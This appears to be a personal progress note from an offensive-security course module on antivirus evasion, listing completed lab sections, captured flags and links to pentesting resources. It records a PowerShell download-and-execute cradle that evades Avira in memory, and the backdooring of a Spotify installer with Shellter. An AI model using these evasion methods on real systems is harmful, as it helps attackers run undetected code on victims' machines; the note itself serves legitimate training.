- [x] **15.2.2 In-memory Evasion:** done (Q1 & Q2 answered, all 4 techniques with diagrams)
- [x] **15.3.1 Testing for AV Evasion:** done (best practices, VirusTotal/Kleenscan, test VM setup)
- [x] **15.3.2 Evading AV with Thread Injection:** done (theory, VirtualAlloc Q1 answered, hands-on complete), key finding: must use `IEX(New-Object Net.WebClient).DownloadString(...)` not `Invoke-WebRequest -OutFile`, Avira's file engine catches the disk write; `client01\offsec`
- [x] **15.3.3 Automating AV Evasion with Shellter:** done (theory, Stealth Mode Q1 & Q2 answered, Shellter+Spotify hands-on complete, `client01\offsec` via staged shell, Avira bypassed), Capstone 1 complete, `NT AUTHORITY\SYSTEM`, flag `OS{897020a6b5826057c340bd25e616f091}`, COMODO bypassed ✅, Capstone 2 complete, `NT AUTHORITY\SYSTEM`, flag `OS{44c3961aad7bb6f399a5e43cdc21cfb4}`, COMODO v12.2.2.8012 bypassed ✅
- [x] **15.4 Wrapping Up:** done (summary diagram added, external resources linked)

**Module 15 is fully complete. Solo enrichment pass done (2026-08-09). Joint hub-doc sync done (2026-08-10): [[Windows Methodology]] (Step 2b AV Evasion), [[Shells & Payloads (Decision Tree)]] (AV and stager nodes), [[Shells & Payloads]] (Command Appendix, four new sections), [[Antivirus Evasion (Breakdowns)]] (new file, three entries), [[MODERN TOOLING]] (Module 15 added to no-addition list). Nothing open.**
## External Resources

- [HackTricks - Pentesting Index](https://hacktricks.wiki/en/index.html)
- [PayloadsAllTheThings - Methodology and Resources](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [GTFOBins](https://gtfobins.github.io/) for Unix binary abuse where applicable
- [RevShells](https://www.revshells.com/) for shell payloads where applicable
- [CyberChef](https://gchq.github.io/CyberChef/) for encoding and decoding
- [ippsec.rocks](https://ippsec.rocks/) for practical walkthrough searches
## RUNBOOK V2 Stages

- [[RUNBOOK V2/Start Here]]
- [[RUNBOOK V2/Port Triage]]
- [[RUNBOOK V2/Linux - Service Scan]]

## Hub Docs

- [[METHODOLOGY CHEAT SHEET/METHODOLOGY CHEAT SHEET]]
- [[COMMAND APPENDIX/COMMAND APPENDIX]]
- [[DECISION TREE/DECISION TREE]]
- [[COMMAND BREAKDOWNS/COMMAND BREAKDOWNS]]

## Related Boxes

- [[OSCP/BOXES/WRITE UPS/Linux/clamAV|clamAV]] -- reconnaissance and exploit workflow
- [[OSCP/BOXES/WRITE UPS/AD/Forest|Forest]] -- enumeration and privilege escalation
## Why this matters for OSCP

This page matters because it turns a repeatable assessment task into a clear, reviewable habit for the OSCP exam.
